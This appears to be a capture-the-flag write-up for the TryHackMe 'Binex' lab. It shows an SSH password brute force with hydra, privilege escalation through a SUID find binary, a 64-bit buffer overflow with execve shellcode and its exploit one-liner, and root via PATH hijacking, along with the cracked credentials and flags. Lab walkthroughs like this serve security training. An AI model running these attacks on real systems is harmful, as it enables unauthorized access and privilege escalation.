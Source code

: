 ```yaml
---
description: https://tryhackme.com/room/binex
---
```


# Binex

## Task 1 Get initial access

```bash
nmap -n 10.10.131.228
enum4linux 10.10.131.228
hydra -l tryhackme -P /usr/share/wordlists/rockyou.txt -t 64 ssh://10.10.131.228
```

![nmap -n 10.10.131.228](<../../.gitbook/assets/Screenshot from 2022-02-21 12-16-42.png>)

![enum4linux 10.10.131.228](<../../.gitbook/assets/Screenshot from 2022-02-21 12-45-22.png>)

![hydra -l tryhackme -P /usr/share/wordlists/rockyou.txt -t 64 ssh://10.10.131.228](<../../.gitbook/assets/Screenshot from 2022-02-21 13-01-22.png>)

{% hint style="success" %}
`tryhackme:thebeset`
{% endhint %}

## Task 2 SUID :: Binary 1

```bash
ssh tryhackme@10.10.131.228
wget http://10.6.9.176/suid3num.py
python suid3num.py
```

![python suid3num.py](<../../.gitbook/assets/Screenshot from 2022-02-21 13-23-52.png>)

```bash
ls -l /usr/bin/find
/usr/bin/find /home/des -type f -name flag.txt -exec cat {} \;
```

![/usr/bin/find /home/des -type f -name flag.txt -exec cat {} ;](<../../.gitbook/assets/Screenshot from 2022-02-21 13-25-13.png>)

{% hint style="success" %}
`THM{exploit_the_SUID}`
{% endhint %}

## Task 3 Buffer Overflow :: Binary 2

```bash
su - des
ls -l
cat bof64.c
```

![](<../../.gitbook/assets/Screenshot from 2022-02-21 13-32-22.png>)

```c
#include <stdio.h>
#include <unistd.h>

int foo() {
	char buffer[600];
	int characters_read;
	printf("Enter some string:\n");
	characters_read = read(0, buffer, 1000);
	printf("You entered: %s", buffer);
	return 0;
}

void main() {
	setresuid(geteuid(), geteuid(), geteuid());
    	setresgid(getegid(), getegid(), getegid());
	foo();
}
```

```bash
gdb -q ./bof
gdb> checksec
gdb> pattern create 1000 pattern.txt
gdb> run < pattern.txt
gdb> pattern search
```

![checksec](<../../.gitbook/assets/Screenshot from 2022-02-21 13-57-15.png>)

![sysctl -a --pattern random](<../../.gitbook/assets/Screenshot from 2022-02-21 15-16-42.png>)

![pattern search](<../../.gitbook/assets/Screenshot from 2022-02-21 14-00-03.png>)

```bash
python2 -c 'print "A" * 616 + "BBBBBB\x00\x00"' > pattern.txt
python2 -c 'print "\x90" * 550 + "\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05" + "A" * (616 - 550 - 24) + "BBBBBB\x00\x00"' > pattern.txt
(python2 -c 'print "\x90" * 550 + "\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05" + "A" * (616 - 550 - 24) + "\x80\xe2\xff\xff\xff\x7f\x00\x00"'; cat) | ./bof
```

![disassemble \*foo+48](<../../.gitbook/assets/Screenshot from 2022-02-21 14-40-52.png>)

![x/100x $rsp](<../../.gitbook/assets/Screenshot from 2022-02-21 14-43-48.png>)

```bash
id
python3 -c 'import pty; pty.spawn("/bin/bash")'
cat /home/kel/flag.txt
```

![](<../../.gitbook/assets/Screenshot from 2022-02-21 14-52-30.png>)

{% hint style="success" %}
`THM{buffer_overflow_in_64_bit}`
{% endhint %}

## Task 4 PATH Manipulation :: Binary 3

#### What is the contents of /root/root.txt?

```bash
su - kel
ls -l 
cat exe.c
```

![](<../../.gitbook/assets/Screenshot from 2022-02-21 15-07-43.png>)

```c
#include <unistd.h>

void main() {
	setuid(0);
	setgid(0);
	system("ps");
}
```

```bash
cp /bin/bash /tmp/ps
PATH=/tmp:$PATH ./exe
cat /root/root.txt
```

![](<../../.gitbook/assets/Screenshot from 2022-02-21 15-13-55.png>)

{% hint style="success" %}
`THM{SUID_binary_and_PATH_exploit}`
{% endhint %}

## Reference

{% embed url="https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/64-bit-stack-based-buffer-overflow" %}

{% embed url="https://www.youtube.com/watch?v=njaQE8Q_Ems" %}
